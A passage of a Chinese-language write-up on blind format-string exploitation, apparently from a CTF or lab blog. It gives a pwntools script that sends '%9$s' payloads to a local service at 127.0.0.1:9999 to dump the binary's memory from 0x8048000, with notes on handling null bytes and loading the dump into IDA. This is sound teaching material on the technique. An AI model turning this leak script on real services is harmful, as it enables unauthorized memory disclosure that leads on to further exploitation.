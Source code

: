 > 这里最好从0x8048000开始泄漏，不要只泄漏.text段。不然，会有很多符号解析数据没有泄漏下来。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import binascii
# context.log_level = 'debug'

r = remote('127.0.0.1',9999)
r.recv()
r.sendline('moxiaoxi')
r.recv()

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    resp = r.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret


begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)


```

在进行dump的过程中实际上是需要注意一些内容的，原因是%s进行输出时实际上是x00截断的，但是.text段中不可避免会出现x00，但是我们注意到还有一个特性，如果对一个x00的地址进行leak，返回是没有结果的，因此如果返回没有结果，我们就可以确定这个地址的值为x00，所以可以设置为x00然后将地址加1进行dump。

内存数据dump下来后，虽然跟原始bin有很大不同，也运行不了，但是丢到ida中仍然是可以看的:

![2](http://momomoxiaoxi.com/img/post/Fmtstr/2.png)
